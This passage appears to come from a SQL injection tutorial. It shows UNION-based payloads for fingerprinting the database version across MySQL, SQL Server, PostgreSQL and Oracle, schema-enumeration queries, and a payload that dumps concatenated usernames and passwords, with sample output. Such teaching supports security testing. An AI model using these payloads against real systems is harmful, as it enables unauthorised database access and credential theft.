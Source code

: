 By adding that to UNION Statement our query looks like this.

```
https://insecure-website.com/products?category=Gifts'+UNION+SELECT+NULL,NULL,@@version--+-
```

This will show us the DBMS name so now knowing this information we have to change our query syntax with that DBMS syntax.

For UNION Statements its like this

| Database | Query |
| --- | --- |
| MySQL | 'UNION SELECT 1,@@version,3-- - |
| Microsoft SQL | 'UNION SELECT 1,@@version,3-- - |
| PostgreSQL | 'UNION SELECT 1,version(),3-- - |
| Oracle | 'UNION SELECT 1,banner,3 FROM v$version-- - |

Where 1, 3 and banner are colums that are not showing in HTML contex and we must use that as UNION statement shows error if no of columns of first statement does not match with no of columns of other statement.

**Querying the DBMS Databases, Tables, and Columns Names**

When we know the DBMS name next step is to use that to enumerate other databases, their tables, and the columns of that tables we can enumerate using database schemas. Every DBMS manages its default database that has all the information about its databases, Tables name, and Columns Names. Every DBMS has the location of its schema so you should first know which DBMS you are attacking.

| Database | Query |
| --- | --- |
| Oracle | `SELECT * FROM all_tables` or `SELECT * FROM all_tab_columns WHERE table_name = 'TABLE NAME HERE'`|
| Microsoft | `SELECT * FROM information_schema.tables` or `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |
| PostgreSQL | `SELECT * FROM information_schema.tables` or `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'   ` |
| MySQL | `SELECT * FROM information_schema.tables` or `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |

**Retrieving multiple values within a single column**

Sometimes application only has one column that is visible to the user, in that case, we can retrieve multiple columns' data but to do that we much concatenate it properly with DBMS syntax.

For example, in Oracle, you submit the input like this

```
' UNION SELECT username || ':' || password FROM users--
```

This uses the double-pipe sequence `||` which is a string concatenation operator on Oracle. The injected query concatenates together the values of the `username` and `password` fields, separated by the `:` character.

The results from the query will let you read all of the usernames and passwords in one column like this
```
administrator:s3cure
wiener:peter
carlos:montoya
```
